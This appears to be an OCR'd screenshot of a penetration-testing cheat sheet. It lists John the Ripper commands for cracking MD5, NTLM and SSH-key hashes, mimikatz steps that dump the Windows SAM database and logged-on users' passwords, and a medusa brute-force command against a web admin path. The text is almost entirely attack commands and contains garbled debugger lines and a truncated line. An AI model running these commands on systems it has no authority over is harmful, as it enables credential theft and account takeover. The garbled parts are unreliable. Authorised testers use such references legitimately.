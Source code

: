 # MD5 HASH CRACK
john --format=Raw-MD5 passwordFile

# NTLM HASH CRACKING
john hash.txt --format=NT
john --wordlist=cewl.tx…
debugger eval code:1:62
python sshng2john.py ~/.ssh/id_rsa.key
python sshng2john.py ~/.ssh/id_rsa.key &gt; hash.txt
john --wordlist=rockyou.txt hash.txt
        debugger eval code:1:62
# DUMP WINDOWS SAM DATABASE
mimikatz.exe
# Check you have priv needed
priviledge::debug
# Elevate security token from high to system
token::elevate
# Dump the contents of the SAM database
lsadump::sam

# DUMP CACHED CREDENTIALS
mimikatz.exe
privilege::debug
# Dump creds and hashes of all logged on users
sekurlsa::logonpasswords
      debugger eval code:1:62
medusa -h 10.0.0.1 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
# -h is the target host
# -u is the username
# -P is the password file
# -M is the authentication scheme
# -m is the URI exectension
# -d cant be used to brute force other protocols
